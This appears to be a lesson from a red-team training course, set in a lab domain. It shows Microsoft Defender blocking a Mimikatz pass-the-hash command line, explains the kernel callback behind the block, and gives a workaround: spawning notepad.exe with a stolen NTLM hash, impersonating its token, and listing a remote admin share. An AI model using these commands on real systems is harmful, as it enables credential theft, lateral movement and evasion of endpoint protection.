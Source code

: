 Defender also has the ability to inspect the command line arguments of a process and can prevent it from starting if it has malicious content.  A common place you may find this is with the built-in `pth` command.
```
beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
```
  

We can see from the console log that this expands to:
```
sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:"%COMSPEC% /c echo 9c91bb58485 > \\.\pipe\34a65a"
```
  

However, you will get an access denied error when Mimikatz tries to call CreateProcessWithLogonW.
```
user	: jking
domain	: DEV
program	: C:\Windows\system32\cmd.exe /c echo 9c91bb58485 > \\.\pipe\34a65a
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
ERROR kuhl_m_sekurlsa_pth ; CreateProcessWithLogonW (0x00000005)
```
  

It's not entirely obvious on the surface that this is caused by Defender, but you can see the alert in both in the GUI and via `Get-MpThreatDetection`.  The "CmdLine" prefix gives away the origin of the detection.  In this case, it's the `echo x > \\.\pipe\` pattern as this is synonymous with named pipe impersonation (also obvious from the title of the alert).

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/500/817/5f7/defender-cmdline.png)

  
```
ActionSuccess                  : True
AdditionalActionsBitMask       : 0
AMProductVersion               : 4.18.2205.7
CleaningActionID               : 3
CurrentThreatExecutionStatusID : 0
DetectionID                    : {2773A98F-C5FE-4BA2-B6F1-96C2F4D296D4}
DetectionSourceTypeID          : 2
DomainUser                     : NT AUTHORITY\SYSTEM
InitialDetectionTime           : 10/30/2023 2:25:56 PM
LastThreatStatusChangeTime     : 10/30/2023 2:26:42 PM
ProcessName                    : Unknown
RemediationTime                : 10/30/2023 2:26:42 PM
Resources                      : {CmdLine:_C:\Windows\System32\cmd.exe /c echo 9c91bb58485 > \\.\pipe\34a65a}
ThreatID                       : 2147735445
ThreatStatusErrorCode          : 0
ThreatStatusID                 : 4
PSComputerName                 :
```
  

The reason this returns an access denied (i.e. error code 5) is because the enforcement is coming from the Windows Defender driver in the kernel.  This driver receives [notifications](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nc-ntddk-pcreate_process_notify_routine_ex) when new processes are being created, which contain a  [PS_CREATE_NOTIFY_INFO](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/ns-ntddk-_ps_create_notify_info) structure.  The eagle-eyed will spot the _CreationStatus_ member, which is the NTSTATUS value to return.  The driver can simply set this to STATUS_ACCESS_DENIED to prevent the process from starting, and that error code propagates down to the caller.

Bypassing or disabling kernel-level callbacks is out of scope for RTO.  The easiest workaround is to find a way to achieve the same goal but in a way that doesn't involve the same command line arguments.  For pass-the-hash, we can simply start an arbitrary process and steal its token manually.
```
beacon> mimikatz sekurlsa::pth /user:"jking" /domain:"DEV" /ntlm:59fc0f884922b4ce376051134c71e22c /run:notepad.exe

user	: jking
domain	: DEV
program	: notepad.exe
impers.	: no
NTLM	: 59fc0f884922b4ce376051134c71e22c
  |  PID  17896
  |  TID  11384
  |  LSA Process is now R/W
  |  LUID 0 ; 8586493 (00000000:008304fd)
  \_ msv1_0   - data copy @ 00000129694D4070 : OK !
  \_ kerberos - data copy @ 00000129694CCD28

beacon> steal_token 17896
[+] Impersonated DEV\bfarmer

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     09/26/2023 08:38:47   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     10/30/2023 13:58:46   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     11/02/2022 09:32:00   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     09/26/2023 08:51:14   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     10/30/2023 13:27:39   DumpStack.log.tmp
 384mb    fil     10/30/2023 13:27:39   pagefile.sys
 ```